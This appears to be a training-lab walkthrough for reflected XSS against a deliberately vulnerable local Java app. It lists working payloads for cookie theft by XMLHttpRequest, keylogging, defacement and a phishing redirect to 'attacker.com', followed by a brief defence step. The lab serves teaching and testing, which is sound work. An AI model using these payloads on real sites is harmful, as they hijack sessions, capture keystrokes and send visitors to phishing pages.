 ### Reflected XSS
---

## Introduction XSS

When looking at XSS (Cross-Site Scripting), there are three generally recognized forms of XSS:

1 . Reflected or Stored
2 . DOM Based XSS.

Cross-site scripting (or XSS) is a code vulnerability that occurs when an attacker “injects” a malicious script into an otherwise trusted website. The injected script gets downloaded and executed by the end user’s browser when the user interacts with the compromised website. Since the script came from a trusted website, it cannot be distinguished from a legitimate script.

## Owasp

https://owasp.org/www-community/attacks/xss/

#### **Lab Image : Java ReflectedXSS**

## Attack

* Step 1: Open browser and go to url

    ```
    http://localhost
    ```

    > **Note:** Replace `localhost` with your server url

* Step 2: Change to directory 

    ```
    cd /root/reflected-xss
    ```

* Step 3: Build the project

    ```
    docker run -it --rm --name my-maven-project -v "$(pwd)":/usr/src/mymaven -p 8080:8080 -/usr/src/mymaven maven:3.3-jdk-8 mvn package
    ```

* Step 4: Now start the app

    ```
    docker-compose up -d
    ```

* Step 5: Now browse to url

    ```
    http://localhost:8888/ReflectedXSS/index.jsp
    ```

    > **Note:** Replace `localhost` with your server ip

* Step 6: Perform a normal activity

    ```
    http://localhost:8888/ReflectedXSS/index.jsp?name=MHN
    ```
    

* Step 7: Try these payloads to perform a XSS attack
    

    * To gain sensitive information

        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>alert(document.cookie)</script>
        ```            


    * To deface a website
      
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3Edocument.body.innerHTML%3D%22%3Ch1%3EYou%20have%20been%20hacked%3C%2Fh1%3E%3Cimg%20src%3D'https%3A%2F%2Fimages.fineartamerica.com%2Fimages%2Fartworkimages%2Fmediumlarge%2F2%2Fheath-ledger-joker-portrait-madura-venkatachalam.jpg'%2F%3E%22%3C%2Fscript%3E
        ```
            
        
    * To perform phishing
    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>window.location="http://attacker.com/gmail.html"</script>
        ```
    
    * To steal cookie
    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>var a=new XMLHttpRequest();a.open("GET","http://localhost:9000/?domain="+document.cookie);a.send();</script>
        -------------------------------------
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3Evar%20a%3Dnew%20XMLHttpRequest()%3Ba.open(%22GET%22%2C%22http%3A%2F%2Flocalhost%3A9000%2F%3Fdomain%3D%22%2Bdocument.cookie)%3Ba.send()%3B%3C%2Fscript%3E
        ```
        
    * To Perform keylogging
​    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3E%0Adocument.addEventListener(%22keyup%22%2C%20function(e)%7B%0A%09var%20x%20%3D%20new%20XMLHttpRequest()%3B%0A%09var%20url%20%3D%20%22http%3A%2F%2Flocalhost%3A9000%3F%22%2Be.key%0A%09x.open(%22GET%22%2Curl%20%2C%20true)%3B%0A%09x.send()%3B%0A%7D)%3B%0A%3C%2Fscript%3E
        ```
## Defend

* Step 1: Now browse to url

    ```
    http://localhost:8888/ReflectedXSS/secure.jsp?name=MHN
    ```

    > **Note:** Replace `localhost` with your server ip

* Step 2: Try these payloads to perform various XSS attacks

    * To gain sensitive information

        ```
        http://localhost:8888/ReflectedXSS/secure.jsp?name=%3Cscript%3Ealert(document.cookie)%3C/script%3E
        ```
        

    This should encoded and should render as normal html



